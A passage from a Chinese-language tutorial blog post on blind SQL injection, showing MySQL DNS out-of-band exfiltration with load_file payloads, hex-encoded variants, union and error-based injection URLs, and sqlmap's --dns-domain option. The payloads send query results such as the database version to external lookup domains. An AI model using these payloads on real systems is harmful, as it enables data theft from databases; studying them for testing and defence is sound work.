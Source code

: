 我本地也做了对应的测试

```
select load_file(concat('\\',@@version,'.9a56627dc016fc8b5c6e.d.zhack.ca\a.txt'));
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A822.png)

当然我们可以对这个 payload 进行必要的编码

```
select load_file(concat(0x5c5c5c5c,@@version,0x2E62383862306437653533326238663635333164322E642E7A6861636B2E63615C5C612E747874));
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/SQL%E7%9B%B2%E6%B3%A823.png)

> **注意:** mysql 编码的时候每个反斜线都要加一个反斜线来转义

这种方式可以用于 union 和 error-base 的 sqli 中，如下

```
http://192.168.0.100/?id=-1'+union+select+1,load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874)),3-- -

http://192.168.0.100/?id=-1' or !(select*from(select   load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874)))x)-~0-- -

http://192.168.0.100/?id=-1' or exp(~(select*from(select load_file(concat(0x5c5c5c5c,version(),0x2e6861636b65722e736974655c5c612e747874)))a))-- -
```

当然除了or 你还可以用以下 ||, |, and, &amp;&amp;, &amp;, &gt;&gt;, &lt;&lt;, ^, xor, &lt;=, &lt;, ,&gt;, &gt;=, *, mul, /, div, -, +, %, mod.

### **5.sqlmap 的扩展**

由于这种在攻击中方便快捷的特性，sqlmap 也进行了响应的扩展来支持这种攻击方式，添加了新的命令行参数 —dns-domain

使用时指定对应的服务器

```
--dns-domain=attacker.com
```

但是因为 sqlmap 在运行过程中遵循的是 union 和 error-base 优先级最高的原则，所以只有当攻击是基于 blind 并且用户使用了上面的选项时 dns 攻击才会开始

另外每个得到的DNS解析请求都被编码为十六进制格式，因为这是DNS域名的（事实上的）标准,这样就可以保留所有最终的非单词字符。此外，较长的SQL查询结果的十六进制表示被分成几部分,这样做是因为完整域名内的每个节点的标签（例如.example.）的长度限制为63个字符。



## 0X06 总结

由于 SQLi 的涉及内容太多，我想来想去觉得一篇文章肯定不能全部涵盖，于是这篇文章主要是结合一些案例谈谈我在宏观上对 Blind SQLi 的理解，其他的关于 SQLi Bypass 的内容准备再开一个坑，由于篇幅原因，和时间仓促，文中有些内容难免出现不完善或者错误的情况，请师傅们不吝赐教。
